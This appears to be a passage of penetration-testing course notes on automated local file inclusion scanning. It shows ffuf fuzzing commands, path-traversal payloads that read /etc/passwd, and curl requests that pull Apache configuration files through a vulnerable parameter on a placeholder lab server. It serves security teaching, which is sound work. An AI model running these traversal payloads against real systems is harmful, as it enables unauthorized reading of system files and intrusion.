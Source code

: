 ## Fuzzing Parameters
* In many cases, the page may have other exposed parameters that are not linked to any HTML forms, and hence normal users would never access or unintentionally cause harm through
* This is why it may be important to fuzz for exposed parameters, as they tend not to be as secure as public ones

```sh
$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=value
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

language                    [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

* Once we identify an exposed parameter that isn't linked to any forms we tested, we can perform all of the LFI tests discussed in this module
* Applies to most web vulnerabilities

**Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters).

## LFI wordlists
* Manual testing more reliable and can find LFI vulnerabillities that may not be identified otherwise
* However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities
* There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan
* A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once
* We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module

```sh
$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

## Fuzzing Server Files
* In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them
* Such files include: `Server webroot path`, `server configurations file`, and `server logs`

#### Server Webroot
* We may need to know the full server webroot path to complete our exploitation in some cases
* For example, if we wanted to locate a file we uploaded, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`)
* In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths
* To do so, we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
* Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords
* We may also use the same [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist we used earlier, as it also contains various payloads that may reveal the webroot
* If this does not help us in identifying the webroot, then our best choice would be to read the server configurations, as they tend to contain the webroot and other important information

```sh
$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

#### Server Logs/Configurations
* We may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in
* If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`

```sh
$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

* As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases
* Now, we can try reading any of these files to see whether we can get their content
* We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration

```sh
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

* We do get the default webroot path and the log path
* However, in this case, the log path is using a global apache variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is (`/etc/apache2/envvars`), and we can read it to find the variable values

```sh
$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```

* As we can see, the (`APACHE_LOG_DIR`) variable is set to (`/var/log/apache2`), and the previous configuration told us that the log files are `/access.log` and `/error.log`

**Note:** Of course, we can simply use a wordlist to find the logs, as multiple wordlists we used in this sections did show the log location. But this exercises shows us how we can manually go through identified files, and then use the information we find to further identify more files and important information. This is quite similar to when we read different file sources in the `PHP filters` section, and such efforts may reveal previously unknown information about the web application, which we can use to further exploit it.

The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy). We can also search GitHub for various other LFI tools and scripts, but in general, most tools perform the same tasks, with varying levels of success and accuracy